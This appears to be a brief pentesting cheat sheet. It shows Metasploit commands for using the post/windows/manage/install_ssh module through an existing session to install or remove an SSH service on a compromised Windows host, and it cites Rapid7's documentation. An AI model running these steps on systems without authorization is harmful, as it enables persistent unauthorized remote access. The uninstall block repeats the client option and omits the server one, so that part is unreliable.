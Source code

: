 # Metasploit

TODO: Fill this info

## 01 - Install SSH Service

```
msf > use post/windows/manage/install_ssh

msf post(windows/manage/install_ssh) > options

msf post(windows/manage/install_ssh) > set session <session_ID>

msf post(windows/manage/install_ssh) > run
```

`meterpreter` one-liner post module command.

```
meterpreter > run post/windows/manage/install_ssh
```

## 02 - Uninstall SSH Service

```
msf post(windows/manage/install_ssh) > set session <session_ID>

msf post(windows/manage/install_ssh) > set install_client false

msf post(windows/manage/install_ssh) > set install_server false

msf post(windows/manage/install_ssh) > set uninstall_client true

msf post(windows/manage/install_ssh) > set uninstall_client true

msf post(windows/manage/install_ssh) > run
```

`meterpreter` one-liner post module command.

```
meterpreter > run post/windows/manage/install_ssh install_client=false install_server=false uninstall_client=true uninstall_server=true
```

---
## References

- [Rapid7: Metasploit Framework - Install SSH Post Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/manage/install_ssh.md)